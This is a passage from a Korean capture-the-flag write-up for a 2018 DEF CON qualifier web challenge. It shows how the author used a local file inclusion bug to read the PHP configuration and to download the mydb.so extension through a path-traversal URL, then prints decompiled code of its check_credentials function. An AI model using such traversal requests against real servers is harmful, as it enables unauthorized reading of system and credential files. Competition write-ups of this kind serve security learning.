 include하는 파일은 없고, 또한 php기본 함수도 아닌 `check_credentials`를 호출하는 것을 볼 수 있다.

이는 분명히 so를 통해 호출할 것이므로, LFI를 통해 php설정 파일을 열람하였고 맨 아랫 부분에서 로드하는 파일을 확인할 수 있었다.

```
extension=mydb.so
```

mydb.so를 LFI를 통해 다운로드 받아보았다.

`http://d4a386ad.quals2018.oooverflow.io/essays.php?preview&name=../../../../../../../../../usr/lib/php/20151012/mydb.so`

추출한 mydb.so파일에서 `check_credentials` 함수를 찾을 수 있었다.

```c
Php::Value *__fastcall check_credentials(Php::Value *this, _QWORD *a2)
{
  ...
  v4 = j_get_user_id((__int64)vars0, (__int64)vars20, (__int64)check_hacking_attempt);
  Php::Value::operator=(&unk_207100, 0LL);
  if ( v4 == -2 )
  {
    Php::Value::Value(this, 0);
  }
  else
  {
    if ( v4 <= 0 )
      goto LABEL_13;
    Php::Value::Value(this, v4);
  }
  if ( vars20 != &_30 )
    operator delete(vars20);
  if ( vars0 != &vars0 )
    operator delete(vars0);
  result = this;
  if ( __readfsqword(0x28u) != varsA8 )
  {
LABEL_13:
    v6 = (_QWORD *)_cxa_allocate_exception(40LL);
    start(&vars80, "Error in checking credentials.");
    *v6 = &`vtable for'Php::Exception + 2;
    v6[1] = v6 + 3;
    if ( vars80 == &vars90 )
    {
      v7 = vars98;
      v6[3] = vars90;
      v6[4] = v7;
    }
    else
    {
      v6[1] = vars80;
      v6[3] = vars90;
    }
    v6[2] = vars88;
    _cxa_throw(v6, &`typeinfo for'Php::Exception, Php::Exception::~Exception);
  }
  return result;
}
```
